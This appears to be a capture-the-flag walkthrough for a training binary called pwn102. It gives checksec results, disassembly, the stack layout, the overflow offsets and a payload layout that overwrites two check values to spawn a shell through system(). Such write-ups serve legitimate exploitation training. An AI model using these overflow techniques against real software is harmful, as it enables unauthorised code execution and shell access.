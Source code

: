 # PWN102 CTF Walkthrough

## Executive Summary

This is a direct stack overflow challenge. The binary uses `scanf()` to read user input and checks if two specific values match hardcoded targets. By overflowing the buffer and precisely positioning our payload, we can overwrite these values and trigger shell command execution via `system()`.

---

## Phase 1: Reconnaissance

### 1.1 File Information

**Target Binary:** `/home/jack/Documents/hacktivities/projects/pwn ctfs/pwn102/pwn102`

**File Type Analysis:**
```
ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked
Interpreter: /lib64/ld-linux-x86-64.so.2
Not stripped (symbols available)
```

### 1.2 Security Protections Analysis

Using `checksec`:

| Protection | Status | Notes |
|-----------|--------|-------|
| **RELRO** | Full RELRO | Full Read-Only Relocation Object |
| **Stack Canary** | ❌ Not Found | **VULNERABLE** - No stack canary protection |
| **NX** | ✅ Enabled | No eXecute bit set |
| **PIE** | ✅ Enabled | Position Independent Executable |
| **Stripped** | ❌ No | Symbols retained |

### 1.3 Key Strings

```
"I need %x to %x"
"Am I right?"
"Yes, I need %x to %x"
"I'm feeling dead, coz you said I need bad food :("
"/bin/sh"
```

**Interesting Values:**
- `0xbadf00d` (initial value 1)
- `0xfee1dead` (initial value 2)
- `0xc0ff33` (target value 1)
- `0xc0d3` (target value 2)

---

## Phase 2: Binary Analysis

### 2.1 Main Function Disassembly

```assembly
00000000000008fe <main>:
 8fe: 55                    push   %rbp
 8ff: 48 89 e5              mov    %rsp,%rbp
 902: 48 83 ec 70           sub    $0x70,%rsp           # 112 bytes allocated
 91a: c7 45 fc 0d f0 ad 0b  movl   $0xbadf00d,-0x4(%rbp)
 921: c7 45 f8 ad de e1 fe  movl   $0xfee1dead,-0x8(%rbp)
 928-93c: [printf initial values]
 941: 48 8d 45 90           lea    -0x70(%rbp),%rax    # Buffer at -0x70
 945: 48 89 c6              mov    %rax,%rsi
 948: 48 8d 3d 17 02 00 00  lea    0x217(%rip),%rdi   # Format string
 954: e8 f7 fd ff ff        call   750 <__isoc99_scanf@plt>
 959: 81 7d fc 33 ff c0 00  cmpl   $0xc0ff33,-0x4(%rbp)  # Check value 1
 960: 75 30                 jne    992 <main+0x94>
 962: 81 7d f8 d3 c0 00 00  cmpl   $0xc0d3,-0x8(%rbp)   # Check value 2
 969: 75 27                 jne    992 <main+0x94>
 98b: e8 90 fd ff ff        call   720 <system@plt>      # SHELL!
```

### 2.2 Stack Layout

```
RBP + 0x0     ← Frame Pointer
RBP - 0x4     ← Value 1 (0xbadf00d → must be 0xc0ff33)
RBP - 0x8     ← Value 2 (0xfee1dead → must be 0xc0d3)
RBP - 0x70    ← Buffer (112 bytes)
```

---

## Phase 3: Exploitation

### 3.1 Offset Calculation

Buffer starts at: `-0x70(%rbp)`
Value 2 at: `-0x8(%rbp)`
Distance: `0x70 - 0x8 = 0x68 = 104` bytes

Value 1 at: `-0x4(%rbp)`
Distance: `0x70 - 0x4 = 0x6c = 108` bytes

### 3.2 Payload Structure

```
[104 bytes padding] + [0xd3 0xc0 0x00 0x00] + [0x33 0xff 0xc0 0x00]
```

Where:
- First 4 bytes: `0xc0d3` in little-endian for Value 2
- Next 4 bytes: `0xc0ff33` in little-endian for Value 1

### 3.3 Expected Output

```
I need badf00d to fee1dead
Am I right? Yes, I need c0ff33 to c0d3
[Shell spawned]
```

---

## Key Differences from PWN101

PWN101 had:
- Single 64-byte buffer
- Single check value
- Simple overflow

PWN102 has:
- Larger 112-byte buffer  
- Two separate check values
- Required precise offset calculation
- Same vulnerability type but more complex
